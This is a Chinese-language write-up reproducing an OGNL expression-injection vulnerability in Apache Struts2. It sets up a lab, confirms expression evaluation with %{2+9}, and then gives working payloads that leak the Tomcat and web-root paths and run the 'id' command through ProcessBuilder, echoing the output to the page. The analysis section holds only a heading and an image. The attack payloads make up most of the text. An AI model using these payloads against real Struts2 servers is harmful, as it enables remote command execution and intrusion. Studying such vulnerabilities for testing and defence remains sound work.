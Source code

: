 ![image-20221026135430287](images/5.png)

搭建完成

# 漏洞复现

提交%{2+9}和%{2*9}返回到是计算后的结果，说明这里是有个表达式解析的

![image-20221026150005913](images/6.png)

![image-20221026150057446](images/7.png)

获取tomcat路径

```
%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}
```

![image-20221026150146638](images/8.png)

返回值是可以在输入框里面看到的

获取web路径

```
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}

本身获取request对象的路径如下
%{@org.apache.struts2.ServletActionContext@getRequest().getRealPath('/')}
```

![image-20221026150243406](images/9.png)

这个是可以通过response对象打印到页面的

命令执行

```
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"id"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

![image-20221026150840921](images/10.png)

# 漏洞分析

struts2处理流程

![image-20221026152848454](images/11.png)
